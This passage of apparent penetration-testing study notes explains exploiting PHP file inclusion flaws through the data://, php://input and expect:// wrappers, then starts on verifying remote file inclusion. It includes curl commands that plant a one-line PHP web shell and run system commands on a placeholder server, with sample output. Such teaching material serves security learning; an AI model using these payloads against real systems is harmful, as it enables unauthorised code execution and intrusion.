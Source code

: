 Now we use that with our `cmd` we want to execute:
```shell-session
 curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

### Input Wrapper

The <a href="https://www.php.net/manual/en/wrappers.php.php">input</a> wrapper can be used to include external input and execute PHP code also. We pass input to the the `input` wrapper as a post request, so the vulenrable parametr must accept post attacks for this to work. This wrapper also depends on the `allow_url_include` setting.

We send our web shell as a post data to a post request and then our id command as a GET request.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

#### Expect Wrapper
The <a href="https://www.php.net/manual/en/wrappers.expect.php">expect</a> wrapper allows us to directly run commands through URL streams. It relys on the expect external wrapper is installed. We look for that the same way we looked for the `allow_url_include` earlier but grep for "expect".

For this we just use the `expect://` wrapper and include our command.
```shell-session
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Remote File Inclusion
We can include remote files if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits.

1. Enumerating local-only ports and web applications.
2. Gaining remote code execution by including a malicious script that we host.

### Local vs. Remote File Inclusion
Anything that is generally a remote file inclusion is also an LFI but not always vice versa. Also, some functions allow remote URLs but not remote execution.

### Verify RFI
Including remote URLs is generally considered dangerous and remote URL inclusion is usually disabled by default. And sometimes when `allow_url_include` is on there still isn't remote URL inclusion.

The most reliable way to test is to try and include a URL. Start with a local URL to assure that the attempt doesn't get blocked by a firewall or some other measuer. `http://127.0.0.1:80/index.php` is a good start.

If the home web page renders then it's a good indication that the application allows remote urls and that the remote code will get executed and rendered as PHP.

### Remote Code Execution with RFI
